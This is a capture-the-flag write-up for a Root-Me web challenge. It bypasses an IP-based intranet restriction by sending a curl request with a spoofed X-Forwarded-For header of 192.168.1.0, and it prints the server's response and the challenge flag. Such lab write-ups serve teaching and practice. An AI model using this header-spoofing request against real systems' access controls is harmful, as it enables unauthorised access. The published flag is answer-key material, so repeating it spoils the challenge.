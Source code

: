 ```yaml
---
title: HTTP - IP restriction bypass
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 10
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

## Statement

> Dear colleagues,  
> We’re now managing connections to the intranet using private IP addresses, so it’s no longer necessary to login with a username / password when you are already connected to the internal company network.  
> Regards,  
> The network admin

## Solution

Visit the site, we cannot login to it. But we do see a title:
```html
Your IP ::ffff:xxx.xxx.xx.xxx do not belong to the LAN.
```

So I try with some IPs address: ```127.0.0.1```, ```192.168.1.0```, ... and I found ```192.168.1.0``` works.

```sh
curl -H "X-Forwarded-For: 192.168.1.0" http://challenge01.root-me.org/web-serveur/ch68/
```

```html
<!DOCTYPE html>
<html>
<head>
        <title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
                        <h1>Intranet</h1>
                <div>
                        Well done, the validation password is: <strong>Ip_$po0Fing
</strong>
                </div>
        </body>
</html>
```

The flag is
```
Ip_$po0Fing
```
